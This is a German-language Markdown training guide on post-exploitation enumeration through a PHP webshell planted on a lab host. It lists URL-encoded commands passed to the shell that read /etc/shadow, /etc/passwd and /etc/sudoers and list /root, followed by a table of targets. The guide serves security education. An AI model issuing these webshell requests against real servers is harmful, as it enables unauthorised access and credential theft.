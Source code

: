 # 🐚 PHP Webshell – Usage & Enumeration Guide




## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Beispielhafte Webshell-Aufrufe](#beispielhafte-webshell-aufrufe)
- [Systeminformationen ermitteln](#systeminformationen-ermitteln)
- [Netzwerküberblick](#netzwerküberblick)
- [Typische Ziele nach Webshell-Zugriff](#typische-ziele-nach-webshell-zugriff)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Diese Datei dokumentiert typische **Post-Exploitation-Kommandos**, die nach erfolgreicher Platzierung einer PHP-Webshell (`cmdshell.php3`) ([mehr zu cmdshell](/03-web-security/phpWebShell/php_rce_cheat_sheet.md)) auf einem Zielsystem ausgeführt werden können.  
Der Zugriff erfolgt über einen GET-Parameter `cmd`, der Systembefehle auf dem Server ausführt.

> ⚠️ Hinweis: Diese Vorgehensweise dient ausschließlich Schulungs- und Testzwecken innerhalb legaler Testumgebungen oder CTF-Szenarien.



## Beispielhafte Webshell-Aufrufe

Die folgenden URLs zeigen den Zugriff auf die Webshell:

```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=[COMMAND]
```

**Beispielhafte Kommandos:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/passwd
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/shadow
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/group | grep admin
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=cat /etc/sudoers
```
**Dateisystem & Benutzerverzeichnisse durchsuchen:**
```bash
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /var/www
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /home
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=ls -la /root
http://192.168.1.51/admin/uploads/cmdshell.php3?cmd=id
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Systeminformationen ermitteln

```bash
uname -a        # vollständige Systeminformationen
uname -s        # Kernel-Name
uname -n        # Netzwerkname des Hosts
uname -r        # Kernel-Version
uname -v        # Kernel-Build
uname -m        # Architektur (z. B. x86_64)
uname -p        # Prozessor
uname -i        # Hardware-Plattform

pwd             # aktuelles Verzeichnis
whoami          # aktueller Benutzer
```



## Netzwerküberblick

### Netstat-Befehle zur Analyse aktiver Verbindungen:

```bash
netstat         # allgemeine Übersicht
netstat -a      # alle Verbindungen und Ports
netstat -at     # nur TCP
netstat -au     # nur UDP
netstat -l      # nur "listening" Ports
netstat -lp     # mit Prozessinfos (sofern verfügbar)
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Ziele nach Webshell-Zugriff

| Ziel            | Zielsetzung                     |
| --------------- | ------------------------------- |
| `/etc/passwd`   | Benutzerkonten einsehen         |
| `/etc/shadow`   | Passwort-Hashes (nur als root)  |
| `/etc/group`    | Gruppenzugehörigkeiten          |
| `/etc/sudoers`  | Sudo-Rechte prüfen              |
| `/var/www/`     | Web-Inhalte durchsuchen         |
| `/home/`        | Benutzerverzeichnisse einsehen  |
| `/root/`        | Admin-Account analysieren       |
| `id`, `whoami`  | User-Kontext prüfen             |
| `netstat`, `ss` | Netzwerkservices identifizieren |
| `uname -a`      | Systemplattform identifizieren  |



## Siehe auch
- [php_rce_cheat_sheet.md](/03-web-security/angriffe/webshells/php_rce_cheat_sheet.md)
- [sql_injection_to_shell.md](/03-web-security/angriffe/sql-injektionen/sql_injection_to_shell.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---